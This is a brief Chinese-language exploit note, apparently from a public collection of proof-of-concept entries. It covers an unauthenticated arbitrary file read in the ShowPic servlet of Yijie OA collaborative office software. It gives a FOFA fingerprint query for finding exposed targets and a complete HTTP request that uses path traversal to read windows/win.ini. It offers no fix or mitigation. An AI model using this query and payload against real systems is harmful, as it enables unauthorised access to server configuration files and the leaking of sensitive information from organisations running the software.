 # 易捷OA协同办公软件ShowPic接口存在任意文件读取

易捷OA协同办公软件 ShowPic 接口处任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```java
body="/images/logon/bg_img.jpg"
```

## poc

```js
GET /servlet/ShowPic?filePath=../../windows/win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![效果图](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408062347366.png)